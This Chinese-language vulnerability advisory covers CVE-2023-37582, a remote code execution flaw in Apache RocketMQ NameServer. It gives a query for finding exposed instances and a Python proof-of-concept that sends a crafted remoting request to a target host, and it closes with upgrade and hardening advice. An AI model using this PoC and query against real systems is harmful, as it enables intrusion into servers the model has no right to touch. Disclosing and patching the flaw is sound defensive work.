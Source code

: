 # Apache RocketMQ 远程代码执行漏洞 CVE-2023-37582

# Apache RocketMQ 远程代码执行漏洞 CVE-2023-37582

## 漏洞描述

此漏洞是由于 CVE-2023-33246 补丁未修复完全，当 RocketMQ 的NameServer 组件暴露在外网，且缺乏有效的身份认证时，攻击者可以利用更新配置功能，以 RocketMQ 运行的系统用户身份执行任意命令。

## 漏洞影响

```
RocketMQ < 4.9.7
RocketMQ < 5.1.2
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
import socket
import binascii
 
client = socket.socket()
client.settimeout(5)
 
client.connect((target_ip,target_port))
## make payload
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
 
body=('Thanks DawnT0wn').encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
## send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
```

## 漏洞修复

目前官方已发布安全版本，建议受影响用户升级至：

- RocketMQ 5.x >= 5.1.2
- RocketMQ 4.x >= 4.9.7

官方补丁下载地址：https://rocketmq.apache.org/download/，同时建议将 NameServer、Broker 等组件部署在内网，并增加权限认证。

